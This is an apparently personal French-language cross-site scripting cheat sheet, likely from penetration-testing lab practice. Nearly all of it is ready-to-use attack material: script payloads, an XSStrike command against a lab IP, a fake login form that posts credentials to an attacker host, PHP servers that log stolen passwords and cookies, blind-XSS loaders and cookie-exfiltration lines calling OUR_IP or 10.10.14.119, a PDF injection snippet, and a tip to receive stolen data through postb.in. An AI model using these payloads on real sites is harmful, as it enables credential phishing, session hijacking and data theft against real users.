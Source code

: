 ## Cross-Site Scripting (XSS) Cheatsheet

## Payloads de Base
```html
<script>alert(window.origin)</script>
<iframe src=file:///flag.txt></iframe>
```

## Outils : XssStrike
```bash
python xsstrike.py -u 'http://83.136.255.40:49597/?fullname=nhj&username=jhk&password=jl&email=lkl@gmail.com'
```

## Formulaire de Connexion Malveillant
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
### Exemple en JavaScript
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

## Serveur de Récupération des Identifiants (PHP)
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## XSS Aveugle (Blind XSS)
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
<script>fetch('http://OUR_IP/exfil?cookie=' + btoa(document.cookie))</script>
```

## Exfiltration de Cookies
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

## Explication du Vol de Cookies
1. Trouver un payload fonctionnel.
2. Créer un fichier JavaScript :
```javascript
cat cookie.js
new Image().src='http://10.10.14.119:8000/cookie.php?c='+document.cookie;
```
1. Lancer un serveur Python dans le même dossier.
2. Créer un fichier PHP pour stocker les cookies :
```php
cat cookie.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
3. Lancer un serveur PHP `php -S 0.0.0.0:8000`
4. Injecter le script :
```html
"><script src='http://10.10.14.119/cookie.js'></script> 
```

## Exploitation XSS via PDF
### Exemple de code injecté dans un PDF
```plaintext
trailer
<</Size 4/Root 1 0 R>>
startxref
190
3 0 obj
<< /Type /Page
   /Contents 4 0 R
   /AA <<
     /O <<
        /F (\\\\10.10.14.8\\test)
      /D [ 0 /Fit]
      /S /GoToE
      >>
     >>
     /Parent 2 0 R
     /Resources <<
      /Font <<
        /F1 <<
          /Type /Font
          /Subtype /Type1
          /BaseFont /Helvetica
```

## Exfiltration sans IP Publique

- Utiliser `www.postb.in` pour recevoir les données sans IP publique.
